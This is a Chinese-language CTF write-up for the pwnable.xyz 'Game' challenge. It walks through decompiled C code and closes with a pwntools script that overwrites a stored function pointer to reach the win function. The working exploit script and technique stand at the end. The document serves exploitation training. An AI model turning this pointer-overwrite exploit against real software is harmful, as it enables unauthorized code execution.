 ```yaml
---
title: pwnable_Game
date: 2019-12-29 21:30:58
tags: 
- pwn
- pwnable.xyz
---
```


# pwnable.xyz  Game 

### 0x1 分析

老样子，看一下安全选项：

![](https://i.loli.net/2019/12/29/iIE8L4hBOQokp5D.png)

看起来，可以利用一下地址，也许还可以利用一下GOT也说不定。

拿来看一下`main`函数吧：

```c
// local variable allocation has failed, the output may be wrong!
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  signed int v3; // eax

  setup(*(_QWORD *)&argc, argv, envp);
  puts("Shell we play a game?");
  init_game("Shell we play a game?");
  while ( 1 )
  {
    while ( 1 )
    {
      print_menu();
      printf("> ");
      v3 = read_int32();
      if ( v3 != 1 )
        break;
      (*((void (**)(void))cur + 3))();
    }
    if ( v3 > 1 )
    {
      if ( v3 == 2 )
      {
        save_game();
      }
      else
      {
        if ( v3 != 3 )
          goto LABEL_13;
        edit_name();
      }
    }
    else
    {
      if ( !v3 )
        exit(1);
LABEL_13:
      puts("Invalid");
    }
  }
}
```

首先我们会进入`init_game`函数:

```c
char *init_game()
{
  char *result; // rax

  saves[0] = (__int64)malloc(0x20uLL);
  cur = (char *)find_last_save(32LL);
  printf("Name: ");
  read(0, cur, 0x10uLL);
  result = cur;
  *((_QWORD *)cur + 3) = play_game;
  return result;
}
```

看起来没什么头绪呢。

再往下看吧。

这里我们发现，当选择`1`菜单的时候，调用了`cur+3`这个位置的函数。并且，刚才我们发现`init_game`函数里，这个位置存储的是`play_game`函数的起始位置。

`play_game`:

```c
unsigned __int64 play_game()
{
  __int16 v0; // dx
  __int16 v1; // dx
  __int16 v2; // dx
  __int16 v3; // dx
  int v5; // [rsp-12Ch] [rbp-12Ch]
  int v6; // [rsp-128h] [rbp-128h]
  unsigned int v7; // [rsp-124h] [rbp-124h]
  unsigned int v8; // [rsp-120h] [rbp-120h]
  unsigned __int8 v9; // [rsp-11Ch] [rbp-11Ch]
  __int64 v10; // [rsp-118h] [rbp-118h]
  unsigned __int64 v11; // [rsp-10h] [rbp-10h]

  v11 = __readfsqword(0x28u);
  v5 = open("/dev/urandom", 0);
  if ( v5 == -1 )
  {
    puts("Can't open /dev/urandom");
    exit(1);
  }
  read(v5, &v7, 0xCuLL);
  close(v5);
  v9 &= 3u;
  memset(&v10, 0, 0x100uLL);
  snprintf((char *)&v10, 0x100uLL, "%u %c %u = ", v7, (unsigned int)ops[v9], v8);
  printf("%s", &v10);
  v6 = read_int32();
  if ( v9 == 1 )
  {
    if ( v7 - v8 == v6 )
      v1 = *((_WORD *)cur + 8) + 1;
    else
      v1 = *((_WORD *)cur + 8) - 1;
    *((_WORD *)cur + 8) = v1;
  }
  else if ( (signed int)v9 > 1 )
  {
    if ( v9 == 2 )
    {
      if ( v7 / v8 == v6 )
        v2 = *((_WORD *)cur + 8) + 1;
      else
        v2 = *((_WORD *)cur + 8) - 1;
      *((_WORD *)cur + 8) = v2;
    }
    else if ( v9 == 3 )
    {
      if ( v8 * v7 == v6 )
        v3 = *((_WORD *)cur + 8) + 1;
      else
        v3 = *((_WORD *)cur + 8) - 1;
      *((_WORD *)cur + 8) = v3;
    }
  }
  else if ( !v9 )
  {
    if ( v8 + v7 == v6 )
      v0 = *((_WORD *)cur + 8) + 1;
    else
      v0 = *((_WORD *)cur + 8) - 1;
    *((_WORD *)cur + 8) = v0;
  }
  return __readfsqword(0x28u) ^ v11;
}
```

这里貌似只是一个加减乘除的游戏。往下面看吧。

菜单`2`的时候，进入了`save_game`函数：

`save_game`:

```c
int save_game()
{
  _QWORD *v0; // rcx
  __int64 v1; // rdx
  __int64 v2; // rdx
  __int64 v3; // rax
  signed int i; // [rsp-Ch] [rbp-Ch]

  for ( i = 1; i <= 4; ++i )
  {
    if ( !saves[i] )
    {
      saves[i] = (__int64)malloc(0x20uLL);
      v0 = (_QWORD *)saves[i];
      v1 = *((_QWORD *)cur + 1);
      *v0 = *(_QWORD *)cur;
      v0[1] = v1;
      *(_QWORD *)(saves[i] + 16) = *((signed __int16 *)cur + 8);
      *(_QWORD *)(saves[i] + 24) = play_game;
      v2 = i;
      v3 = saves[v2];
      cur = (char *)saves[v2];
      return v3;
    }
  }
  LODWORD(v3) = puts("Not enough space.");
  return v3;
}
```

这里我们发现`cur`这个位置存进了`24`字节的内容。

接下来我们看一下菜单`3`干了什么。

`edit_name`:

```c
ssize_t edit_name()
{
  size_t v0; // rax

  v0 = strlen(cur);
  return read(0, cur, v0);
}
```

这里也许可以覆盖一些东西。

### 0x2 思路

我们发现菜单`3`可以覆盖`cur`的内容。

而且，菜单`1`并不是直接调用`play_game`函数的。而是通过`cur+3`才调用的。那么我们可以考虑覆盖`cur+3`来调用`win`。

但是。我们发现正常输入的情况下，`cur`字符串的长度并足以延伸到`cur+3`,这样的话我们就没办法用菜单`3`来覆盖`cur`了。

所以我们要用到菜单`2`的函数来扩充`cur`。

### 0x3 代码

```python
#coding:utf-8
from pwn import *
context.log_level="debug"

p=remote("svc.pwnable.xyz",30009)
p.sendlineafter("Name: ","11111111111111111")
p.sendlineafter("= ","1")

p.sendlineafter("> ","2")
p.sendlineafter("> ","3")
p.send("1"*0x18+p64(0x4009D6)[:3])

p.interactive()
```

